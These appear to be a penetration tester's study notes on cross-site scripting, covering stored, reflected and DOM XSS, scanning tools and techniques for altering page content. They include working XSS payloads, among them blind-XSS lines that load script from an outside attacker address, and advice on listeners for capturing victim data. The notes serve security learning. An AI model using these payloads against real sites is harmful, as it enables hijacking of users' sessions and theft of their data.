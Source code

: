 ## overview
- the attacker submits data that is stored on the server
	- the attacker knows the submitted data will be rendered on the client side for other users (ie. comments)
- the submitted data is a frontend coding injection that will execute js on the victim client

### XSS enumerators
- [XSS Strike](https://github.com/s0md3v/XSStrike), [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS), and [XSSer](https://github.com/epsylon/xsser)
- [Nessus](https://www.tenable.com/products/nessus), [Burp Pro](https://portswigger.net/burp/pro), or [ZAP](https://owasp.org/www-project-zap/)

### Note
- XSS can be injected into any input in the HTML page, which is not exclusive to HTML input fields, but may also be in HTTP headers like the Cookie or User-Agent (i.e., when their values are displayed on the page).
- Manually testing XSS is not optimal
	- make a python script with multiple XSS payloads and have a built in function that detects  success/failure cases
	-  do manual code review
		- <font style="color:#CF0000">review the html output and see how your input is handeled</font>
		- most applications test their security against public XSS scripts so those will get patched
- if client side testing shows nothing, try testing inputs that go through server side
### testing for XSS
- upload to a field
```
<script>alert(window.origin)</script>
<plaintext>
<script>print()</script>
```
- blind XSS (may need script \[direct js to execute\], and php files)
```
'><script src=http://10.10.14.44:89/script.js></script>
<script>$.getScript("http://10.10.14.44:89")</script><script
```
-  test if XSS is stored
- for reflected XSS
	- because the server does not store the payload, you need to send a link that has the payload attached. 
	- processed by backend first
	- try editing the url parameters
	- (potential to attack webserver directly)
- for DOM XSS
	- no involvement with backend, (payloads used against another user)
	- JS on frontend will update the page but only after base page source is retrieved by browser
		- refreshing will clear the payload
	- detecting DOM vulnerability
		- js payload is not displayed in the html and does not execute
		- parts
			- source: js object that stores user input
			- sink: js function that writes user input to a DOM object
		- exploiting DOM XSS
			- make sure JS object stores the full payload part of your input
				- look in their js file
			- make sure the JS function allows the html tags you use
				- ex. innerhtml does not allow script tags
				- a good DOM XSS payload:
			```
			<img src="" onerror=alert(window.origin)>
			```
### XSS attacks
- editing frontend code methods
	- you can remove existing DOM elements with `document.getElementById().remove()` element in js
	- you can comment out the entirety of the html code after your inject with an open html comment `<!--` 
	- js can be injected into html pages with the `<script>` tag
- functionality
	-  if your attack involves receiving data from the victim don't forget to start a listener on your attacker device
	- if you want the website to be functional after submitting data, you need to upload a php file to properly handle website functionality